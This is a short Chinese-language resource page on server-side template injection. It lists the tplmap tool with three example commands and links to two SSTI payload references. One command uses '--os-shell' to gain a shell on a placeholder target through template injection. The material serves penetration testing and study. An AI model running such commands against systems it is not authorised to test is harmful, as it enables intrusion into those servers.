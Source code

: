 # 资源

## 工具

*   [tplmap](https://github.com/epinna/tplmap)

    ```shell
    python2.7 ./tplmap.py -u 'http://www.target.com/page?name=John*' --os-shell
    python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=*&comment=supercomment&link"
    python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade
    ```

## 文章

* [SSTI-HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#thymeleaf-java)
* [SSTI-Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Server%20Side%20Template%20Injection/)
